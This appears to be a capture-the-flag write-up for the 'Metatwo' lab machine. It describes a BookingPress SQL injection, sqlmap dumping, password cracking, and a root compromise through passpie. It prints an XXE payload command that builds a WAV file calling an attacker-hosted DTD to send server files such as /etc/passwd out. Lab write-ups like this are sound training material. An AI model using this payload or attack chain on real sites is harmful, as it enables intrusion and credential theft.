

# Metatwo

We start by checking the connectivity with the machine:



And now we try to get all open ports:


We see ports 21(ftp), 22(ssh) and 80(http). Now we add the host to de /etc/hosts and access to the web.


We can see that it is a WordPress site:


We check the source code to discover what is using and discover that is using “bookingpress”:


BookingPress is a full-fledged appointment booking plugin that allows setting up a complete booking system according to your requirements on your WordPress website with super ease. The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection. [https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357](https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357)

We need to capture the..


And modify it like:


With this we can launch sqlmap.


Now list all databases


And all the tables in blog database:


And now we dump wp_users


And now with jhon we can crack the password:


And with this we are able to login: 


For the exploitation, we need to create a WAV file which will fetch the another file called dedsec.dtd which has our malicious content inside.

```sql
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.XX.XX:9001/dedsec.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```


We should host an http host in our machine and load the payload in the web, and when the payload is loaded we will receive connection to our web server that will load dedsec.dtd that will make a request to our server with the content of /etc/passwd in binary.


Now we convert the binary to base64 


With this credentials i don’t get nothing :’)

So now i will try to get wp-config.php, to do so we should modify the dedsec.dtd :


An load the payload again to get:


And again decode it:


Now with this creds try to acces through ftp:


Once in we discover a php file, that we will download:


Here we see “jnelson” creds and we will use it to log in using ssh


And now get the user flag.

Also here we see: 


And inside passpie we found a key file:


We send this file to our machine:


Now we convert the private key in jhon format:


And crack it using wordlist:


Now with the password we can get the passwords of passpie and export all the passwords:


With the password dumped we are able to login as root and get the flag.